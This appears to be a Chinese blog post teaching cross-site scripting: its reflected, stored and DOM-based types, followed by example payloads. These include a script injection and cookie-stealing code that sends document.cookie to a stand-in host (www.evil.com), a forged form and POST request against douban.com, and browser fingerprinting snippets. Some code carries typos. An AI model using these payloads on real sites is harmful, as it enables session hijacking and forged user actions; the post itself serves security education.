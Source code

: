 ```yaml
---
title: 跨站脚本攻击
date: 2017-08-05 09:20:08
tags: 安全
---
```


#### XSS 简介

XSS 攻击：黑客通过注入网页，从而在用户浏览网页时控制浏览器的一种行为。英文全称 Cross Site Script，本来缩写是 CSS，但是为了和层叠样式表(Cascading Style Sheet, CSS)有所区别，所以在安全领域叫 "XSS"。

反射型 XSS

- 反射型 XSS 只是简单地把用户输入的数据“反射”给浏览器。也就是说，黑客往往需要诱使用户“点击”一个恶意链接，才能攻击成功。反射型 XSS 也叫作“非持久型 XSS”(Non-persistent XSS)

存储型 XSS

- 储存型 XSS 会把用户输入的数据“存储”在服务器端。这种 XSS 具有很强的稳定性。比较常见的一个场景就是，黑客写下一篇含有恶意 JavaScript 代码的博客文章，文章发表后，所有访问该博客文章的用户，都会在他们的浏览器中执行这段恶意的 JavaScript 代码。

- 存储型 XSS 通常也叫做“持久性 XSS”(Persistent XSS)，因为从效果上来说，它存在的时间是比较长的。

DOM Based XSS

- 实际上，这种类型的 XSS 并非按照“数据是否保存在服务器端”来划分，DOM Based XSS 从效果上来说是反射型 XSS。单独划分出来，是因为 Dom Based XSS 的形成原因比较特别，发现它的安全专家专门提出了这种类型的 XSS。处于历史原因，也就把它单独作为一个分类了。

例如：

```html
<script>
function test() {
    var str = document.getElementById("text").value;
    document.getElementById("t").innerHTML = "<a href='"+str+"'>testLink</a>";
}
</script>
<div id="t"></div>
<input type="text" id="text" value="">
<input type="button" id="a" value="write" onclick="test()"/>
```

#### XSS 攻击进阶

#### 初探 XSS Payload

一个最常见的 XSS Payload，就是通过读取浏览器的 Cookie 对象，从而发起“Cookie 劫持”攻击

如下所示，攻击者先加载一个远程脚本：

```html
http://www.a.com/test.htm?abc="><script src=http://www.evil.com/evil.js></script>
```

在 evil.js 中，可以通过如下代码窃取 Cookie：

```javascript
var img = document.createElement("img");
img.src = "http://www.evil.com/log?"+escape(document.cookie);
document.body.apendChild(img);
```

这段代码在页面中插入了一张看不见的图片，同时把 document.cookie 对象作为参数发送到远程服务器

#### 强大的 XSS Payload

构造一个 form 表单，然后自动提交这个表单

```javascript
var dd = document.createElement("div");
document.body.appendChild(dd);
dd.innerHTML = '<form action="" method="post" id="xssform" name"mbform">'+
'<input type="hidden" value="JiUY" name="ck" />'+
'<input type="text" value="test" name="mb_text" />'+
'<form>'
document.getElementById("xssform").submit();
```

通过 XMLHttpRequest 发送一个 POST 请求

```javascript
var url="http://www.douban.com";
var psotstr = "ck=JiUY&mb_text=test123";
var ajax = null;
if(window.XMLHttpRequest) {
    ajax = new XMLHttpRequest();
}
else if(window.ActiveXObject) {
    ajax = new ActiveXObject("Microsoft.XMLHTTP");
}
else{
    return;
}

ajax.open("POST", url, ture);
ajax.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
ajax.send(postStr);

ajax.onreadystatechange = function() {
    if(ajax.readyState == 4 && ajax.status == 200) {
        alert("Done!");
    }
}
```

识别用户安装的软件

```javascript
try {
    var obj = new ActiveXObject('XunLeiBHO.ThunderIEHelper');
} catch(e) {
    // 异常，不存在该控件
}
```

如果客户端安装了 java 环境，那么 XSS 就可以通过调用 Java Applet 的接口获取客户端的本地 IP 地址。

```javascript
AttackAPI.dom.getInternalIP = function() {
    try {
        var sock = new java.net.Socket();
        sock.bind(new java.net.InetSocketAddress('0.0.0.0', 0));
        sock.connect(new java.net.InetSocketAddress(document.domain, (!document.location.port)?80:document.location.port));
        return sock.getLocalAddress().getHostAddress();
    } catch(e) {}
    return '127.0.0.1';
};
```

#### XSS 攻击平台

- Attack API

- BeEF

- XSS-Proxy


#### 终极武器：XSS Worm

蠕虫是利用服务器端软件漏洞进行传播的，比如 2003 年的冲击波蠕虫，是利用 windows 的 RPC 远程溢出漏洞。

